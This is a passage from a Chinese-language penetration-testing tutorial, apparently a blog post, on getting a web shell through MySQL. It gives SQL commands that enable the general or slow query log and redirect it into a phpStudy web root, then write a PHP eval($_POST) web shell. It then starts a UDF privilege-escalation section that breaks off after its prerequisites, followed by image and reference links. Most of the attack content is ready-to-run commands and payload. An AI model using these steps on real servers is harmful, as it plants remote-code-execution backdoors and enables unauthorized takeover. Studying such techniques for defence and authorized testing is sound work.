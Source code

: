 #### 通过写入日志文件 getshell

注意，通过：

```
show global variables like "%genera%";
set global general_log='on';
```

操作设置的目录开启的操作在重启`phpstudy`后会失效

指定日志文件:

```
set global general_log_file = "C:/phpstudy/PHPTutorial/WWW/test2.php";
```

写入执行代码：

```
SELECT '<?php eval($_POST["soap"]);?>'
```

#### 通过慢查询写入 shell

查看当前慢查询日志目录：

```
show variables like '%slow%';
```

![][16]

重新设置路径：

```
set GLOBAL slow_query_log_file='C:/phpstudy/PHPTutorial/WWW/slow.php';
```

开启慢查询日志：

```
set GLOBAL slow_query_log=on;
```

执行写入日志：

```
select '<?php eval($_POST["soap"]);?>' from mysql.db where sleep(10);
```

### User defined funct ion（UDF）

适用于`Windows`和`Linux`环境

需要的条件：

- 具有写权限
- 插件目录可写（或者可以更改指定的插件目录）。

具体情况要看目标 mysql 的版本：


[1]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_111241.png
[2]: https://img.soapffz.com/archives_img/2020/02/13/https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_112857.png
[3]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_125442.png
[4]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_132709.png
[5]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131046.png
[6]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131258.png
[7]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_131352.png
[8]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130356.png
[9]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_130718.png
[10]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_133321.png
[11]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134455.png
[12]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_134522.png
[13]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135233.png
[14]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_135252.png
[15]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_142449.png
[16]: https://img.soapffz.com/archives_img/2020/02/13/archives_20200213_143545.png
[17]: https://mp.weixin.qq.com/s/9Tkcn2AtGrHUsIbRCQ-ZSQ
[18]: https://mp.weixin.qq.com/s/Y1ZtcQ-VuIh89RDcYoD3hQ
[19]: https://mp.weixin.qq.com/s/IWjGPQ155kZnUxh5fjb1RQ
[20]: https://www.freebuf.com/articles/web/226240.html
